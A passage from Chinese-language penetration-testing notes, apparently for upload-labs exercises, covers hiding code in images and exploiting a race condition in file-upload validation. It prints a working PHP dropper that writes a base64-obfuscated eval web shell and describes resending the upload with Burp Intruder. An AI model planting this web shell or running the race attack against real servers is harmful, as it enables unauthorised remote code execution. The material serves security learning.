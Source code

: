 > ![image-20230831163242377](../资源文件/图片/image-20230831163242377.png)
>
> 注意：插入的代码位置需要蓝色的位置足够长，且尽量多试试其它位置，不成功可能说因为改了图片别的参数
>
> ![image-20230831163425462](../资源文件/图片/image-20230831163425462.png)
>
> 然后用文件包含构造URL



### 条件竞争

> **基本概念：**条件竞争就是在源代码中是存在校验的，但是校验是在文件上传后，才开始校验，也就是文件先上传至服务器中，然后服务器会对该文件进行校验，当符合的时候则会对文件进行重命名，当文件不符合要求的时候就对将文件进行删除。
>
> 而我们则需要在服务器对文件删除前进行访问，由于文件在访问过程中，服务器是无法删除的，所以就可以利用这个节点实现条件竞争。
>
> 首先我们需要的木马为写马的马
>
> ```
> <?php fputs(fopen('cjc.php','w'),'<?php $b = "YXNzZXJ0";$a = base64_decode($b);@$a(eval($_POST["pass"]));?>');?>
> ```
>
> 然后上传这个马，用bp抓包，在发送到intruder模块
>
> 在payload里改成如图所示
>